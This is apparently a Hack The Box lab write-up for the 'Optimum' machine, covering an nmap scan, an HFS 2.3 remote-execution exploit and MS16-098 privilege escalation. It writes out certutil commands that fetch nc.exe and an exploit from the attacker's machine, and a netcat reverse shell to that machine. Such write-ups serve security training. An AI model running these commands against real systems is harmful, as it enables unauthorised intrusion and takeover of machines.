




# Enumeration:
Started with an nmap scan to enumerate the box:
```bash
# Nmap 7.92 scan initiated Sat Jul  9 21:40:08 2022 as: nmap -sS -sV -A -p- -oN nmap.txt 10.10.10.8
Nmap scan report for 10.10.10.8
Host is up (0.073s latency).
Not shown: 65534 filtered tcp ports (no-response)
PORT   STATE SERVICE VERSION
80/tcp open  http    HttpFileServer httpd 2.3
|_http-title: HFS /
|_http-server-header: HFS 2.3
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Aggressive OS guesses: Microsoft Windows Server 2012 (91%), Microsoft Windows Server 2012 or Windows Server 2012 R2 (91%), Microsoft Windows Server 2012 R2 (91%), Microsoft Windows 7 Professional (87%), Microsoft Windows 8.1 Update 1 (86%), Microsoft Windows Phone 7.5 or 8.0 (86%), Microsoft Windows 7 or Windows Server 2008 R2 (85%), Microsoft Windows Server 2008 R2 (85%), Microsoft Windows Server 2008 R2 or Windows 8.1 (85%), Microsoft Windows Server 2008 R2 SP1 or Windows 8 (85%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

TRACEROUTE (using port 80/tcp)
HOP RTT      ADDRESS
1   74.28 ms 10.10.14.1
2   74.34 ms 10.10.10.8

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sat Jul  9 21:42:08 2022 -- 1 IP address (1 host up) scanned in 120.47 seconds
```
\
**Initial Shell Vulnerability Exploited:**\
Since port 80 was open, I got into the main page and could see that it was powered by HttpFileServer (HFS) 2.3:\
 </br>
I found an exploit for this version on [Exploit-DB](https://www.exploit-db.com/exploits/49584) and modified the exploit to my IP Address and port, and it worked: </br>
 </br>\
**Vulnerability Explanation:**  The findMacroMarker function in parserLib.pas in Rejetto HTTP File Server
(aka HFS or HTTP Fileserver) 2.3x before 2.3c allows remote attackers to execute arbitrary programs via
a %00 sequence in a search action, and the exploit abuses it </br>
**Initial Shell Screenshot:** </br>
 </br> </br>
<!--Privilege Escalation:-->
# Privilege Escalation:
I used [Windows-Exploit-Suggester](https://github.com/AonCyberLabs/Windows-Exploit-Suggester), and copied all of the system information with the Command: ```systeminfo```, saved it into a file on my Kali, and ran the script with the command:
```bash
python2 windows-exploit-suggester.py --database 2022-07-17-mssb.xls
--systeminfo /home/kali/Downloads/boxes/optimum/sysinfo.txt
```
I found out that this machine was vulnerable to MS16-098: </br>
 </br>
**MS16-098:** </br>
The exploit didn't work and my powershell session got stuck, So i tried using netcat, to send myself a proper CMD shell: </br>
**Kali Linux:** </br>
First, I copied the nc.exe binary to my working directory: ```cp /usr/share/windows-binaries/nc.exe . ``` </br>
Second, I hosted a python http server with: ```python -m http.server 80``` and on another window, started a netcat listener: ```nc -nlvp 1234``` </br>
**Windows Target Machine:** </br>
I used certutil to transfer the file from my Kali to the Windows machine:
```bash
certutil -urlcache -split -f "http://10.10.14.3/nc.exe" nc.exe
```
Finally, I ran the netcat with: ```nc.exe 10.10.14.3 4444 -e cmd.exe``` </br> </br>
 </br> </br>
Downloaded the MS16-098 Exploit from [Exploit-DB](https://www.exploit-db.com/exploits/41020), And transferred it to the Windows
Machine with certutil: </br>
```bash
certutil -urlcache -split -f "http://10.10.14.3/privesc.exe" privesc.exe
``` 
**Vulnerability Explanation:** The kernel-mode drivers in Microsoft Windows Vista SP2; Windows Server
2008 SP2 and R2 SP1; Windows 7 SP1; Windows 8.1; Windows Server 2012 Gold and R2; Windows RT
8.1; and Windows 10 Gold, 1511, and 1607 allow local users to gain privileges via a crafted application,
aka "Win32k Elevation of Privilege Vulnerability". </br>
**Proof Of Screenshot:** </br>



